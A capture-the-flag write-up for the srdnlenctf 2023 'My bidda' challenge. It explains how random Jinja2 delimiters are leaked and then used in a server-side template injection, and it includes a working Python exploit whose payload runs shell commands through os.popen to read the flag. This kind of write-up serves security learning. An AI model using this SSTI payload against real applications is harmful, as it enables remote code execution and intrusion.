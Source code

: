 # srdnlenctf 2023

## My bidda (X solves)

Cities are way overcrowded and noisy, I want to live in a small town. Tell me about your bidda.

One of my friends found a vulnerability but he told me it's fixed now, can you check?


### Solution

In this challenge you need to perform an SSTI attack against Jinja2. Small problem, the template delimiters are random.
To leak the random delimiters we can exploit a vulnerability in the /inspect_bidda endpoint. The template executes 'env.\_\_dict\_\_.get(name)' where name is a parameter we control. Since env is the jinja2 Environment object it contains the attribute variable_start_string, leaking this attribute we can see the random delimiters. After that we can exploit the template injection in /send_bidda to perform a simple RCE that allows to read the flag.

### Exploit

```python
#!/bin/env python3

import requests
import re

req = requests.session()

url = "http://mybidda.challs.srdnlen.it"
res = req.post(url+"/send_bidda", data={"name": "whatever", "population": "whatever", "image": "whatever"})

res = req.get(url+"/inspect_bidda?name=variable_start_string")

key_index = res.text.find("called ")
key = res.text[key_index+7:key_index+18]

payload = key+" cycler.__init__.__globals__.os.popen('cat /home/flag.txt').read() "+key[1:]+'!'
res = req.post(url+"/send_bidda", data={"name": payload, "population": "whatever", "image": "whatever"}).text

flag = re.search("srdnlen{(.*)}", res).group(0)
print(flag)

```
